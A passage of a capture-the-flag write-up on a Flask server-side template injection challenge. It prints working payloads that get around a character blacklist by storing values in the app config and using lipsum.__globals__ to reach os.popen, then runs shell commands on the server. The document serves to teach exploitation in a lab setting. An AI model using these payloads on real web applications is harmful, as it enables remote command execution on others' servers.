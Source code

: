 ```python

app.run('0.0.0.0', 1337)
```

The blacklist is pretty strict given what payloads I have done in the past.
The biggest new restriction for me was no double curly braces allowed. Luckily,
it's a quick solve. In flask templates curly braces are just an alias for **\{&#37; print() &#37;\}**.
So, we can do everything we normally do, only, it costs us a few extra characters.
For example,

>\{&#37;(config.items()){}&#37;\}

Now, we just need to somehow make a payload to read the flag with less than 69
characters. I did a lot of thinking for this part, but eventually, learned a fun
trick. Back in SSTI Golf, we made a custom entry in the app configuration. We set
a key y to have a value of **cat%20truly_an_arbitrarily_named_file**. The trick comes
in when we supply an object instead of just a string.

>\{&#37;print(config.update(y=SOME_OBJECT))&#37;\}


Using this idea we can put any object we want into the config and refer to its
children or attributes pretty easily. So, I went forward with trying to get the
payload from SSTI Golf injected into this challenge.

>\{&#37;print(config.update(a=request.args.a))&#37;\}&a=\_\_globals\_\_

First, I needed to get access to globals. However, with the blacklist restrictions
underscores are blocked. So, to get access to it I added the string to the config.

>\{&#37;print(config.update(b=lipsum\|attr(config.a)))&#37;\}

Next, I added the **lipsum.__globals__** object to the config so I could easily
access the os module. So, at this point, we can access popen with a payload
containing **config.b.os.popen()**.

```python
txt = html.escape(request.args["txt"])
```

Before we get to the next step, I wanted to point out this line of code.
The script escapes our input making it a tiny bit more difficult to add commands to
popen. It essentially means we cannot use single quotes or double quotes in
commands without causing an error. So, we also have to add our commands to the
config to avoid this.

>\{&#37;print(config.update(c=request.args.c))&#37;\}&c=ls
>
>\{&#37;print(config.b.os.popen(config.c).read())&#37;\}

[![Directory listing](/assets/ICTF-2022/mini1.png)](/assets/ICTF-2022/mini1.png)
<figcaption align=center><b>Figure 8.1: Using Our Small Payload to Print File Listings</b></figcaption>
&nbsp;
